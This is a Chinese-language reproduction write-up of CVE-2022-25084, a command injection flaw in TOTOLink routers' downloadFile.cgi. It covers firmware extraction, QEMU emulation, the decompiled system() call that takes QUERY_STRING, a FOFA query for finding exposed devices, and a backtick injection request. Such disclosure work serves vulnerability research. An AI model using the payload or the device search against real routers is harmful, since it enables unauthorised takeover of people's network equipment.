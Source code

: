 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## FOFA

```
"totolink"
```

## 漏洞复现

下载路由器固件

![image-20220519180647333](./images/202205191806401.png)

使用binwalk分解固件

![image-20220519180700129](./images/202205191807189.png)

查看分解出来的文件

![image-20220519180713772](./images/202205191807833.png)

使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![image-20220519180729455](./images/202205191807515.png)

启动后访问路由器页面

![image-20220519180743756](./images/202205191807814.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![image-20220519180807271](./images/202205191808361.png)

分析 cgi文件 `downloadFile.cgi`

![image-20220519180821187](./images/202205191808273.png)

我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![image-20220519180833486](./images/202205191808559.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![image-20220519180852180](./images/202205191808272.png)